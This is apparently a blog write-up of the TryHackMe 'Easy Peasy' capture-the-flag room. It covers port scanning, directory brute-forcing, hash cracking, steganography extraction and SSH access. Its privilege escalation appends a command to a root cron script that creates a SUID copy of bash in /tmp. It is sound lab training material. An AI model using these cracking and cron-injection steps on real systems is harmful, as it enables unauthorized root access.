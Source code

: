 ```yaml
---
title: THM | Easy Peasy
date: 2023-12-18 09:24:00 +0530
categories: [Nmap and GoBuster]
tags: [cronjob, John The Ripper] 
---
```


Tryhackme Room: [https://tryhackme.com/easypeasyctf](https://tryhackme.com/room/easypeasyctf)

# Reconnaisance

## Nmap

```
nmap -sS -T4 -p1-65535 -sV 10.10.3.41
```

```
Nmap scan report for 10.10.3.41
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Open Ports

- 80 http
- 6498 ssh
- 65524 http

## Port 80 (HTTP)

The web server is showing default nginx page.

![d66abc272c62094382155ae592c9f960.png](/Tryhackme/EasyPeasy/_resources/d66abc272c62094382155ae592c9f960.png)

Next we will use gobuster utility to find hidden files and directories.

```
gobuster dir -u http://10.10.3.41/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 250 -x php,htnl,txt

```

We Found the following result.

```
/robots.txt           (Status: 200) [Size: 43]
/hidden               (Status: 301) [Size: 169]
```

We found the /hidden directory, so we will open this directory in the browser.

![c9b04fb70a1843627e1b33ae0906645e.png](/Tryhackme/EasyPeasy/_resources/c9b04fb70a1843627e1b33ae0906645e.png)

Nothing interseting found in the webpage and the source code. So, we will run gobuster again in this directory.

```
gobuster dir -u http://10.10.3.41/hidden/ -w /usr/share/wordlists/dirb/common.txt -t 250
```

We found the following result.

```
/index.html           (Status: 200) [Size: 390]
/whatever             (Status: 301) [Size: 169] 
```

Next we will browse this /whatever directory and check the source code.

![18ad9e0a9e314c06ab28c46ace0b1efe.png](/Tryhackme/EasyPeasy/_resources/18ad9e0a9e314c06ab28c46ace0b1efe.png)

![03723e1e52824e7b99414511279927a7.png](/Tryhackme/EasyPeasy/_resources/03723e1e52824e7b99414511279927a7.png)

We found a base64 encoded string. So, lets decode it.

![f45ea9db7dbf39b3a663df4ffe3cb464.png](/Tryhackme/EasyPeasy/_resources/f45ea9db7dbf39b3a663df4ffe3cb464.png)

We found our first flag.

Nex we will move to the other http web server running apache on port 65526.

## Port 65524 (HTTP)

The web server running default Apache and we are displayed with default page.

![b501aee346c65354d1b72058a39bc530.png](/Tryhackme/EasyPeasy/_resources/b501aee346c65354d1b72058a39bc530.png)

By closely looking at the page we found a flag3.

![7fc99c3f88b3954330c255bd4ba7fad9.png](/Tryhackme/EasyPeasy/_resources/7fc99c3f88b3954330c255bd4ba7fad9.png)

Next, we will run gobuster and look for hidden directories and files
```
gobuster dir -u http://10.10.219.20:65524/ -w /usr/share/wordlists/dirb/common.txt -t 250
```

Nothing interesting found except `/robots.txt`. 

We found a MD5 hash in the robots.txt file and further we cracked it online

![93fc6b5d284521fb5d92cae282ceac3f.png](/Tryhackme/EasyPeasy/_resources/93fc6b5d284521fb5d92cae282ceac3f.png)

![dee1f5ce0f5ef7a253492eadc33d9bb7.png](/Tryhackme/EasyPeasy/_resources/dee1f5ce0f5ef7a253492eadc33d9bb7.png)

Then, we checked the source page of the apache defualt page, where we got base62 decoded string.

![cbe8549b674ffe17544ffe2805a9181b.png](/Tryhackme/EasyPeasy/_resources/cbe8549b674ffe17544ffe2805a9181b.png)

We decoded the above string and found our hidden directory.

![289808b48432c9fb7331d16453aa74b5.png](/Tryhackme/EasyPeasy/_resources/289808b48432c9fb7331d16453aa74b5.png)

Then, We accessed the hidden directory and found a hash in the source page.

![574a67f9643460139285933bb0d0a487.png](/Tryhackme/EasyPeasy/_resources/574a67f9643460139285933bb0d0a487.png)

![89a92702225a908bf46f78cd1d693e09.png](/Tryhackme/EasyPeasy/_resources/89a92702225a908bf46f78cd1d693e09.png)

As the provided wordlist is recomended to crack the hash, we will do the same.

```
john --format=gost --wordlist=easypeasy.txt hash3.txt
```

![cc7d96d3698ae888a8e4db164a32a66f.png](/Tryhackme/EasyPeasy/_resources/cc7d96d3698ae888a8e4db164a32a66f.png)
 
 Or we can crack it online using `https://md5hashing.net/`
 
 ![01ddd1c46521ddff29beee03e8d24ebc.png](/Tryhackme/EasyPeasy/_resources/01ddd1c46521ddff29beee03e8d24ebc.png)
 
 As, we require password for the SSH login. Next, with the previously cracked password, we will try to extract any hidden information in the image file named `binarycodepixabay.jpg`.
 
 Extracted secret text file using `steghide` tool.
 
 ```
 steghide extract -sf binarycodepixabay.jpg 
 ```
 ![de3b4a553e2b671266d8f5957d50be8e.png](/Tryhackme/EasyPeasy/_resources/de3b4a553e2b671266d8f5957d50be8e.png)
 
 Then, we converted the binary to text and the password.
 
 ![236d137c4d2437cebc01d07fcc85901d.png](/Tryhackme/EasyPeasy/_resources/236d137c4d2437cebc01d07fcc85901d.png)
 
 # Initial Foothold
 
 So, after getting the credential to login, we ssh to the machine and got the user flag.
 
 ```
 ssh boring@10.10.219.20 -p 6498
```

![9ca9b1256c68c455b45add16977013d8.png](/Tryhackme/EasyPeasy/_resources/9ca9b1256c68c455b45add16977013d8.png)

But, we have to decode the cypher text and get our flag.

![ba4c282f6aa223495e7964edbc18c9d7.png](/Tryhackme/EasyPeasy/_resources/ba4c282f6aa223495e7964edbc18c9d7.png)


# PrivEsc

After checking the cron jobs and sudo permissions, we were not getting anything for elevate privilege.
So, we transferred linpeas.sh to the target machine and run the script.

![4e33ba2c1f15c0f0159c42ee68919658.png](/Tryhackme/EasyPeasy/_resources/4e33ba2c1f15c0f0159c42ee68919658.png)

We found the interesting file under /var/www 

![6477b3f9eccbceef736e83eb39ef9b76.png](/Tryhackme/EasyPeasy/_resources/6477b3f9eccbceef736e83eb39ef9b76.png)

Interestingly this script is running by root as cron job.

![6e9dc5eedbd8cf8535268202e3781352.png](/Tryhackme/EasyPeasy/_resources/6e9dc5eedbd8cf8535268202e3781352.png)

So we will add our malicious code to get a copy of bash with suid in the /tmp directory
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> .mysecretcronjob.sh
```

![7bdfcab48ac9db7b5ecaa0b8fdf47409.png](/Tryhackme/EasyPeasy/_resources/7bdfcab48ac9db7b5ecaa0b8fdf47409.png)

Next, We will execute the script and get the root privilege and read the root flag under /root directory

![1b59a4fb29d64a111f68631b4403df5c.png](/Tryhackme/EasyPeasy/_resources/1b59a4fb29d64a111f68631b4403df5c.png)

![60f76851290d31ad26bd98dbf7badaea.png](/Tryhackme/EasyPeasy/_resources/60f76851290d31ad26bd98dbf7badaea.png)